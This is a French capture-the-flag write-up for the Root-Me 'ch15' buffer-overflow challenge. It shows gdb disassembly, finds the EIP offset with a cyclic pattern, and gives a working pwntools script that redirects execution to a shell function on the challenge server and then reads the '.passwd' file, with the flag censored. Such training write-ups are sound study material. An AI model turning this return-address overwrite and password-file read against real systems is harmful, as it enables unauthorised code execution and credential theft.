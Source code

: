 On va utiliser "pwn" en python3

On cherche l’adresse de la fonction shell :
```
gdb$ disass shell
Dump of assembler code for function shell:
  0x08048464 <+0>:    push   %ebp
   ...
  0x08048477 <+19>:    ret    
End of assembler dump.
```
On retiendra 0x08048464 (début de l’exécution)
```
gdb$ disass main
Dump of assembler code for function main:
  0x0804848c <+0>:    push   ebp
   ....
  0x080484c9 <+61>:    leave  
  0x080484ca <+62>:    ret    
End of assembler dump.
```
Lorsque que l’on fait un breakpoint avant "ret", on se situe avant l’execution de l’EIP. Si on remplace l’adresse que contient EIP, on execute le code contenu à cette adresse à la fin de l’exécution du programme. En utilisant "pwn.cyclic(200)" on cherche ce que contient eip
```
gdb$ b *0x080484ca
Breakpoint 1 at 0x80484ca
gdb$ run
Starting program: /challenge/app-systeme/ch15/ch15
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab

Program received signal SIGSEGV, Segmentation fault.
--------------------------------------------------------------------------[regs]
 EAX: 0x62616168  EBX: 0xB7FD0000  ECX: 0xBFFFFB1C  EDX: 0xB7FD18A4  o d I t S z a p c
 ESI: 0x00000000  EDI: 0x00000000  EBP: 0xBFFFFBA8  ESP: 0xBFFFFAFC  EIP: 0x62616168
 CS: 0073  DS: 007B  ES: 007B  FS: 0000  GS: 0033  SS: 007BError while running hook_stop:
Cannot access memory at address 0x62616168
0x62616168 in ?? ()
```
On peut alors aller cherche le flag avec le programme suivant :
```
#! /usr/bin/env python3
import pwn
 
s = pwn.ssh('app-systeme-ch15',
            'challenge02.root-me.org',
            password='app-systeme-ch15',
            port=2222)
 
p = s.process('ch15')
n = pwn.cyclic_find(0x62616168)
p.sendline((b'A'*n)[:n]+pwn.p32(0x08048464))
p.sendline(b'cat .passwd')
print(p.recvline())
p.close()
s.close()
```

On obtient :
```
[+] Connecting to challenge02.root-me.org on port 2222: Done
[+] Opening new channel: execve(b'ch15', [b'ch15'], os.environ): Done
b'$ FLAG censuré\n'
[*] Closed SSH channel with challenge02.root-me.org
[*] Closed connection to 'challenge02.root-me.org'
```

